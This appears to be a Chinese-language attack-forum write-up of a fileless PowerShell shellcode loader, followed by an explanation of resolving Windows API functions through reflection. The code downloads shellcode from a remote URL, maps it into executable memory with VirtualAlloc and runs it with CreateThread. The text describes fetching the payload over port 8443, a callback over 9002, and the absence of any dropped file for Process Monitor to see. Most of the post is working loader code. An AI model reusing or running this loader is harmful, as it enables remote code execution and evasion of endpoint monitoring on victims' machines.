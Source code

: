 ```powershell
$client = New-Object System.Net.WebClient # 下载shellcode到内存中 
$shellcode = $client.DownloadData($url) # 将shellcode转换为Byte[]类型 
[Byte[]] $payload = $shellcode

# 通过反射调用执行函数
$exec_mem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $payload.length, 0x3000, 0x40)

# 拷贝shellcode
[System.Runtime.InteropServices.Marshal]::Copy($payload, 0, $exec_mem, $payload.length)

# 创建线程
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$exec_mem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# 暂停等待执行
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

### 运行效果

直接运行，通过8443下载shellcode代码，再通过9002进行通信连接。  
![p9BHQ6x.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-e182da9baefb1b68b91e52776f5415a3d8b43beb.png)  
此时再查看 Process Monitor 就找不到之前的落地文件了。

### 编写过程及逻辑分析

#### 01 动态查找技术

为了达到完全实现在内存中执行的效果，使用动态查找技术。  
动态查找技术需要列出程序集中符合的函数，主要是找到 GetProcAddress 和 GetModuleHandle

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies | ForEach-Object {
    $_.GetTypes()| ForEach-Object {
        $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Contains('Unsafe') 
        }
    } 2> $null 
}
```

精确定位到包含指定函数的程序集中，找到 system.dll 程序集

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies | ForEach-Object {
    $_.Location
    $_.GetTypes()| ForEach-Object {
        $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
        }
    } 2> $null 
}
```
